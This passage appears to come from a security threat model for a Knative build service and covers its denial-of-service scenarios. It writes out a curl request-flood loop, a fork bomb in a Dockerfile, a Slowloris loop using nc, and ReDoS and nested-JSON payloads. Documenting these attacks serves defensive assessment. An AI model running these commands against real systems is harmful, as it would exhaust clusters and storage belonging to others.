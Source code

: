 
### 5. Denial of Service (P0)

#### Attack Scenario: Resource Exhaustion
```bash
# ATTACK: Exhaust cluster resources

# Spam build requests
for i in {1..10000}; do
  curl -X POST http://knative-lambda/cloudevents \
    -H "Content-Type: application/cloudevents+json" \
    -d "{
      \"type\": \"build.started\",
      \"id\": \"flood-$i\",
      \"data\": {
        \"buildID\": \"attack-$i\",
        \"sourceCode\": \"$(cat /dev/urandom | head -c 10M | base64)\"
      }
    }" &
done

# Each build creates:
# - 1 Kubernetes Job
# - 1 S3 upload (large file)
# - 1 Container image build
# = Cluster OOM + S3 storage exhaustion

# Alternative: Billion Laughs Attack
POST /cloudevents
{
  "data": {
    "sourceCode": "const a='a'.repeat(10000000000);"
  }
}

# Alternative: Fork Bomb in Build
Dockerfile: RUN :(){ :|:& };:

# Alternative: Slowloris Attack
while true; do
  (echo -ne "POST /cloudevents HTTP/1.1\r\nHost: knative-lambda\r\n" && sleep 10) | \
  nc knative-lambda 80 &
done
```

#### Exploit: Algorithmic Complexity Attack
```javascript
// ATTACK: Trigger regex DoS (ReDoS)

// If input validation uses regex, test for ReDoS
const payload = {
  buildID: "a".repeat(10000) + "b"  // Catastrophic backtracking
};

// Or nested JSON structures
const nestedJSON = JSON.parse('{"a":'.repeat(10000) + 'null' + '}'.repeat(10000));
```

---